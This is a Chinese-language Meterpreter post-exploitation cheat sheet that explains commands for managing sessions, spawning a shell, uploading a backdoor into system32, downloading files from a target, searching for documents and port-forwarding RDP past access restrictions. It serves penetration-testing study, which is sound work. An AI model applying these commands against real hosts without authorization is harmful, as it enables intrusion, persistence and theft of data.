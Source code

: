 - 1、background命令

返回，把meterpreter后台挂起

- 2、session命令
session 命令可以查看已经成功获取的会话
可以使用session -i 连接到指定序号的meterpreter会话已继续利用

- 3、shell命令
获取目标主机的远程命令行shell
如果出错，考虑是目标主机限制了cmd.exe的访问权，可以使用migrate注入到管理员用户进程中再尝试

用python获取标准shell:
python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- 5、getwd命令
获取系统工作的当前目录

- 6、upload命令
上传文件到目标主机，例如把后门程序setup.exe传到目标主机system32目录下

`upload  setup.exe  C:\\windows\\system32\`

- 7、download命令
把目标主机上的文件下载到我们的攻击主机上
例如：把目标主机C盘根目录下的boot.ini文件下载到攻击主机的/root/目录下
`download C:\\boot.ini /root/`

- 9、search命令
在目标主机文件系统上查找搜索文件
例如：search  -d  c:\\  -f  *.doc
在目标主机C盘下搜索doc文档

- 10、ipconfig命令
这个不多说，查看目标主机上的网络参数

- 11、portfwd命令
端口转发
例如目标主机上开启了3389，但是只允许特定IP访问，攻击主机无法连接，可以使用portfwd命令把目标主机的3389端口转发到其他端口打开
例如：`portfwd  add -l  1122 -p 3389 -r  192.168.250.176`
把目标主机192.168.250.176的3389端口转发到1122端口
这是只需要连接目标的1122端口就可以打开远程桌面了
`rdesktop  -u  administrator  -p  123456  192.168.250.176:1122`
- 12、route命令
这个也不多说，显示目标主机上的主机路由表

- 13、getuid
查看meterpreter注入到目标主机的进程所属用户

- 14、sysinfo
查看目标主机系统信息



### 系统其它操作
